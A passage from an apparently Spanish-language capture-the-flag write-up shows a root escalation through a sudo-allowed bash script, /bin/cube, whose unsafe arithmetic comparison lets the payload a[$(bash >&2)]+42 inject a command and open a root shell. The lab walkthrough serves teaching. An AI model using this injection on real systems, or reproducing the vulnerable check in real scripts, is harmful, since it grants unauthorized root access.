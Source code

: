 Vemos **cube** con permisos SUDO  :

   ```bash
luisillo@698415d8b507:/$ cat /bin/cube
#!/bin/bash

# Inicio del script de verificación de número
echo -n "Checker de Seguridad "

# Solicitar al usuario que ingrese un número
echo "Por favor, introduzca un número para verificar:"

# Leer la entrada del usuario y almacenar en una variable
read -rp "Digite el número: " num

# Función para comprobar el número ingresado
echo -e "\n"
check_number() {
  local number=$1
  local correct_number=666

  # Verificación del número ingresado
  if [[ $number -eq $correct_number ]]; then
    echo -e "\n[+] Correcto"
  else
    echo -e "\n[!] Incorrecto"
  fi
}

# Llamada a la función para verificar el número
check_number "$num"

# Mensaje de fin de script
echo -e "\n La verificación ha sido completada."
luisillo@698415d8b507:/$ sudo /bin/cube
Checker de Seguridad Por favor, introduzca un número para verificar:
Digite el número: a[$(bash >&2)]+42


root@698415d8b507:/# whoami
root
root@698415d8b507:/# 
```

No valida correctamente la entrada.

**YA ESTAMOS COMO ROOT.**
